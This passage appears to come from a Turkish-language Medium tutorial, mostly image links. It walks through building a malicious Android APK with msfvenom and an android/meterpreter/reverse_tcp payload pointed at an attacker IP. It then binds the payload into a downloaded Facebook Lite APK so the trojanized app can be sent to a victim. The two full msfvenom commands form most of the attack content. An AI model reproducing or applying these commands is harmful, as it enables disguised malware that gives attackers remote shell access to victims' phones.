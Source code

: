 Tamamı boyunca ileri'ye tıklayın

![](https://miro.medium.com/v2/resize:fit:1050/0*kNA8vAIBWbgu3V7w align="left")

Düzenlemek

![](https://miro.medium.com/v2/resize:fit:1050/0*ci6I-FXvbpLcFE2H align="left")

![](https://miro.medium.com/v2/resize:fit:1050/0*MT3uQT4lSrsHiVtT align="left")

Sanal Telefonumuz çalışır durumda.

![](https://miro.medium.com/v2/resize:fit:1050/0*uV_oJ1vKH9xVk24L align="left")

Şimdi tek yapmamız gereken *msfvenom* kullanarak zararlı uygulamamızı oluşturup kurbana göndermek.

## **<mark>Yükümüzü oluşturuyoruz</mark>**

*msfvenom* , yaygın olarak kullanılan bir sızma testi ve yararlanma araç seti olan Metasploit Çerçevesi içindeki güçlü bir araçtır. *msfvenom,* güvenlik profesyonellerinin ve etik korsanların çeşitli istismarlar için özel veriler oluşturmasına olanak tanır. Bu veriler, uzaktan kod yürütme, kabuk erişimi ve daha fazlasını içeren çeşitli platformlar ve amaçlar için oluşturulabilir.

Araç, kullanıcıların veri yükü türlerini, kodlama tekniklerini, çıktı formatlarını ve diğer parametreleri belirlemesine olanak tanıyarak veri yüklerinin oluşturulmasında esneklik sağlar.

*Msfvenom* kullanarak kötü amaçlı bir APK oluşturmak için aşağıdaki komutu kullandık

```plaintext
sudo msfvenom - platform android -a java -p android/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=<Port> -f raw -o zararlı.apk
```

Saldırganın IP'sini alıyoruz

![](https://miro.medium.com/v2/resize:fit:1050/0*pm7o8_sfioI6XdKM align="left")

# **Veri yükümüzü Facebook Lite ile bağlama**

[Facebook Lite APK'sını buradan apkpure'den](https://m.apkpure.com/facebook-lite/com.facebook.lite) indirdim .

![](https://miro.medium.com/v2/resize:fit:1050/0*Y_rwYrj_nukrVRy_ align="left")

![](https://miro.medium.com/v2/resize:fit:1050/0*4U91p6E0nce63NP0 align="left")

APK'yı payload'a bağlamak için aşağıdaki komutu kullanıyoruz

```plaintext
sudo msfvenom --platform android -a java -p android/meterpreter/reverse_tcp -x Facebook_Lite_401.0.0.14.110_Apkpure.apk LHOST=Atacker_IP LPORT=Bağlantı noktası -o kötü niyetliFB.apk
```

![](https://miro.medium.com/v2/resize:fit:1050/0*eC3swk2NnX4U_DcI align="left")
